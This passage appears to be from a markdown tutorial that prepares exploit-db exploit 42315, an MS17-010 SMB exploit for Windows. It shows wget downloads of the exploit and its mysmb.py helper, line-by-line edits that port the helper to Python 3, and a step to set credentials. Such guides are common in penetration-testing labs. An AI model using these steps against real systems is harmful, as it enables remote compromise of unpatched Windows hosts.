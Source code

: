     ```sh
    wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py -O mysmb.py 

    # Convert DOS to UNIX
    dos2unix mysmb.py
    ```

2. **Edit Some Lines of mysmb.py for Python3**

    You need to edit some code because this exploit is old so only supports **Python2**.

    ```sh
    Line.69
    # transData = b''
    transData = ''

    Line.73
    # transData = ('\x00' * padLen) + str(parameters)
    transData = "".join(map(chr,(b'\x00' * padLen))) + str(parameters)

    Line.80
    # transData += ('\x00' * padLen) + data
    transData += "".join(map(chr,(b'\x00' * padLen))) + str(data)

    Line.231
    # req = str(pkt)
    req = pkt.getData()
    return b'\x00'*2 + pack('>H', len(req)) + req  # assume length is <6553

    Line.381
    # data += resp['Data'][1:]
    data += resp['Data'][1:].decode()
    ```

3. **Download exploit.py**

    ```sh
    wget -O exploit.py https://www.exploit-db.com/exploits/42315

    # Convert DOS to UNIX
    dos2unix exploit.py
    ```

4. **Edit the Credentials in exploit.py**
